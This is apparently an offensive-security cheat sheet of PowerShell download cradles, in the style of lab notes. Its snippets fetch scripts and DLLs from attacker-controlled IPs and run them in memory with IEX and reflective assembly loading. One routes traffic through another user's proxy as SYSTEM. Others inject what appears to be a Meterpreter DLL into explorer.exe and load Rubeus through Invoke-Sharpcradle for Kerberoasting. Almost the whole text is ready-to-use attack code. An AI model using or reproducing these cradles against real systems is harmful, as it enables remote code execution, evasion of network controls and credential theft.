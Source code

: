 #### Powershell Download via Web Proxy

Leveraging the user's proxy

```
$wc = New-Object system.net.webclient
$wc.Headers.Add('User-Agent', "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36")
$wc.DownloadString("http://192.168.49.83/run4.ps1")
```

Leveraging another user's proxy as SYSTEM

```
New-PSDrive -Name HKU -PSProvider Registry -Root HKEY_USERS | Out-Null
$keys = Get-ChildItem 'HKU:\'
ForEach ($key in $keys) {if ($key.Name -like "*S-1-5-21-*") {$start = $key.Name.substring(10);break}}
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://$proxyAddr")
$wc = new-object system.net.WebClient
$wc.DownloadString("http://192.168.49.83/run5.ps1")
```

#### Powershell Download Custom User Agent

```
$wc = new-object system.net.WebClient
$wc.Headers.Add('User-Agent', "This is my agent, there is no one like it...")
$wc.DownloadString("http://192.168.119.120/run.ps1")
```

#### Powershell DLL Reflective Runner

```
$dll = (new-object net.webclient).DownloadData("http://192.168.49.83/ClassLibrary1.dll")
[System.Reflection.Assembly]::Load($dll)
[ClassLibrary1.Class1]::runner()
```

#### Invoke-ReflectivePEInjection.ps1

```
$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.49.83/met.dll')
$procid = (Get-Process -Name explorer).Id
IEX (New-Object Net.WebClient).DownloadString('http://192.168.49.83/ref.ps1')
Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid
```

#### Invoke-Sharploader Reflective PE Injection

```
(new-object net.webclient).downloadstring('http://192.168.49.83/psh/Invoke-Sharpcradle/Invoke-Sharpcradle.ps1')|iex; invoke-sharpcradle -uri http://192.168.49.83/Rubeus.exe -argument1 "kerberoast"
```
